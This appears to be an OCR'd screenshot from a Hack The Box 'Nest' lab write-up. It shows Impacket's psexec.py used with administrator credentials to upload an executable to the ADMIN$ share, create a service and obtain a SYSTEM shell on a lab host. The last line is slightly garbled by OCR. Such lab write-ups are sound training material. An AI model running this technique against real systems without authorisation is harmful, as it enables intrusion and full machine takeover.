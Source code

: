 ![](Maszyny/Windows/Nest/Pasted%20image%2020210827235831.png)

-(kali kali)-[~/htb/nest/smb]
psexec.py administrator@10.10.10.178
Impacket v0.9.24.dev1+20210726.180101.1636eaab
Copyright 2021 SecureAuth Corporation
Password:
[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file IBgUMLGv.exe
[*] Opening SvcManager on 10.10.10.178.....
[*] Creating service Gkcf on 10.10.10.178.....
[*] Starting service Gkcf....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority system
C. Windows\system22
